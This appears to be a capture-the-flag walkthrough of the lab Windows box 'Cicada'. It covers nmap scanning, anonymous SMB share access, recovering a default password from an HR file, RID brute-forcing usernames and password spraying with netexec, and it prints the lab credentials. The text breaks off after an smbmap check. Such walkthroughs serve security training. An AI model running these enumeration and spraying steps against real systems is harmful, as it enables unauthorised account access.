 # Cicada - Windows(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

![ping](Images/ping.png)


## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

This returns quite a bit of information. We can see that a few ports are open, most notably port 445(SMB).

## Investigating SMB
We can check SMB by using netexec and smbclient.

```
netexec smb <target IP>
- Check SMB

netexec winrm <target IP>

smbclient -NL <target IP>
- List SMB shares
```

![nxc](Images/nxc.png)

After checking the listed shares we find out that the HR share can be accessed with an anonymous user (no username/password is required).

```
smbclient //<target IP>/HR
```

![HR](Images/HR.png)

We can then retrieve the 'Notice from HR.txt' file by using the get command.
Back on our attacking machine we can cat the file to read the contents. 

![HRContent](Images/HRContent.png)

Here we can see the default password that is provided to new hires.

Now we can use the --rid-brute option in netexec to brute force a list of usernames and output them to a txt file.

```
netexec smb <target IP> -u 'anonymous' -p '' --rid-brute > user_name_enum.txt
```

![UserEnum](Images/UserEnum.png)

Clean up the output so that only the text file only contains the usernames.
Then use netexec to check to see if the default password is still in use by any of the accounts.

```
netexec smb <target IP> -u userNames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![UserEnumPwd](Images/UserEnumPwd.png)

We can see that the password worked for the user michael.wrightson.
Next we can check what access Michael has to the available SMB shares.

```
smbmap -H 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```


